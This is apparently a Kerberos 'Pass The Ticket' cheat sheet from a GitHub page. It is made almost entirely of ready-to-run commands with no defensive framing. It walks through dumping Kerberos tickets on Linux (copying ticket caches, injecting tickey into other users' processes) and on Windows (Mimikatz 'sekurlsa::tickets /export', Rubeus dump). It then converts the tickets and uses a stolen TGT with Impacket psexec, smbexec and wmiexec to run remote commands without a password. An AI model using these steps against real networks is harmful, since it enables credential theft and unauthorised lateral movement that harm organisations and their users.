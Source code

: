 ## Pass The Ticket (PTT)

### Harvest tickets from Linux

Check type and location of tickets:

```shell
grep default_ccache_name /etc/krb5.conf
```
If none return, default is FILE:/tmp/krb5cc_%{uid}.

In case of file tickets, you can copy-paste (if you have permissions) for use them.

In case of being *KEYRING* tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to get them:

```shell
# To dump current user tickets, if root, try to dump them all by injecting in other user processes
# to inject, copy tickey in a reachable folder by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

### Harvest tickets from Windows

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):
```shell
mimikatz # sekurlsa::tickets /export
```

With [Rubeus](https://github.com/GhostPack/Rubeus) in Powershell:
```shell
.\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```


To convert tickets between Linux/Windows format with [ticket_converter.py](https://github.com/Zer1t0/ticket_converter):

```
python ticket_converter.py ticket.kirbi ticket.ccache
python ticket_converter.py ticket.ccache ticket.kirbi
```

### Using ticket in Linux:

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```
